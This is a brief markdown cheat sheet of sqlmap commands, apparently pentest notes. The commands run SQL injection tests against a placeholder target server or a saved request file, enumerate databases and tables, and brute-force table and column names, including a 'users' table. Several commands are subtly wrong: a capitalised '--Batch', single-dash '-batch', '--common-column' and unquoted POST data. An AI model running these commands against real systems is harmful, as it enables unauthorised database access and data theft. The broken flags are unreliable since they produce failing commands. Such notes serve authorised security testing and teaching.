 # SQLmap

## Simple usage

```
sqlmap -u "http://target_server/"
```

## Set target DBMS to MySQL
```
sqlmap -u "http://target_server/" --dbms=mysql
```

## Use POST requests

```
sqlmap -u "http://target_server/" --data=param1=value1&param2=value2
```

## Use POST request file

```
sqlmap -r request.txt -p [param-to-test]
```

## Batch run

```
sqlmap -r request.txt -p [param-to-test] --Batch
```

## Set Risk/Level

```
sqlmap -r request.txt -p psw --level=5 --risk=3 --dbms mysql --batch
```

## enumerate databases

```
sqlmap -r request.txt --batch --dbs
``` 

## enumerate tables

``` 
sqlmap -r request.txt -batch --tables
``` 

## brute-force tables

```
sqlmap -r request.txt -batch --common-tables
```

## brute-force columns

```
sqlmap -r request.txt -batch -T users --common-column
```